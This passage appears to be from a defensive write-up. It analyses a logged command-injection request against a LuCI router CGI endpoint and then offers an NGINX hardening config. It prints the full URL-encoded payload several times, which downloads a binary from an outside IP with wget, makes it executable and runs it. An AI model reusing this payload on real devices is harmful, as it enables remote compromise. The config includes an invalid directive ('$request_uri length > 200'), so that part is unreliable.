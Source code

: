 3. **Query Parameters**:
   - `form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+shk%3B+wget+http%3A%2F%2F174.138.2.237%2Fshk%3B+chmod+777+shk%3B+.%2Fshk+tplink%3B+rm+-rf+shk%60)`
   - The parameters `form`, `operation`, and `country` are set.
   - `country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+shk%3B+wget+http%3A%2F%2F174.138.2.237%2Fshk%3B+chmod+777+shk%3B+.%2Fshk+tplink%3B+rm+-rf+shk%60)` appears to be a malicious payload injected into the `country` parameter.

4. **Malicious Payload**:
   - `country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+shk%3B+wget+http%3A%2F%2F174.138.2.237%2Fshk%3B+chmod+777+shk%3B+.%2Fshk+tplink%3B+rm+-rf+shk%60)`
   - The payload in the `country` parameter is an attempt to execute arbitrary commands on the server:
     - `$(id%3E%60cd+%2Ftmp%3B+rm+-rf+shk%3B+wget+http%3A%2F%2F174.138.2.237%2Fshk%3B+chmod+777+shk%3B+.%2Fshk+tplink%3B+rm+-rf+shk%60)`
     - The payload uses URL encoding (`%3E`, `%60`, `%2F`, etc.) to obfuscate characters.
     - Breakdown of commands:
       1. Change directory (`cd`) to `/tmp`.
       2. Remove (`rm -rf`) the directory named `shk`.
       3. Download (`wget`) a file (`http://174.138.2.237/shk`).
       4. Set execute permissions (`chmod 777`) on the downloaded file (`shk`).
       5. Execute (`./shk`) the downloaded file with the argument `tplink`.
       6. Remove (`rm -rf`) the downloaded file (`shk`).

5. **Intentions**:
   - The intentions of this malicious request are to exploit a command injection vulnerability on the server.
   - By injecting this payload into the URI, the attacker aims to execute arbitrary commands with elevated privileges (`chmod 777`) and potentially download and execute additional malicious code (`./shk`).

**Analysis**:
- This request poses a severe security risk and indicates an attempt to compromise the server by exploiting a vulnerability in the CGI script (`/cgi-bin/luci/`) or related functionality.

## Probably hardened setup

To implement general security measures across all folders of your NGINX container running on Alpine Linux, you can configure the NGINX server block to include directives that enhance security, including location-based blocking, input validation, and regular expression matching. Below is an example configuration you can apply to your NGINX setup:

```conf
server {
    listen 80 default_server;
    server_name _;

    # Set maximum request size to protect against DoS attacks
    client_max_body_size 10M; # This includes static files like jpeg pictures, so 10M is a good idea I think.

    # Disable access to specific directories
    location ~* ^/(cgi-bin|scripts)/ {
        deny all;
        return 403;
    }

    # Limit request methods to only GET and POST
    if ($request_method !~ ^(GET|POST)$ ) {
        return 405;
    }

    # Block requests with excessive URL length
    if ($request_uri length > 200) {
        return 414;
    }
```